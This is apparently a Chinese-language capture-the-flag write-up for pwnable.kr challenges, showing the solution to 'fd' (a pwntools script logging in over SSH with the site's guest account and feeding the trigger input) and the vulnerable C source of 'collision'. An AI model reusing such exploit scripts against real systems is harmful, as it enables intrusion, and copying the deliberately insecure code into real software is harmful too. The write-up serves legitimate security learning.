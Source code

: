简单分析代码，当buf变量等于“LETMEWIN“时，可以得到flag，buf变量是read函数的参数，如果想要read函数能够从键盘输入中获取字符，那么这道题就变得很简单了。另外，程序在接收用户输入时使用了启动参数，在启动参数小于2（也就是无启动参数）时，程序会直接退出。

| fd   | 对应的文件 |
| ---- | ---------- |
| 0    | stdin      |
| 1    | stdout     |
| 2    | stderr     |
| ...  | ...        |

0x1234转换为十进制是4660，程序启动参数输入4660，遇到read函数从输入获取内容时输入LETMEWIN，即可得到flag。

```python
from pwn import *
p = make_packer(32)
s = ssh(user='fd', host='pwnable.kr', password='guest', port=2222)
payload = b'4660'
io = s.process(executable='./fd', argv=['col', payload])
io.sendline(b'LETMEWIN')
print(io.recvall())
```

## 02. collision

> Daddy told me about cool MD5 hash collision today.
> I wanna do something like that too!

```c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}
```
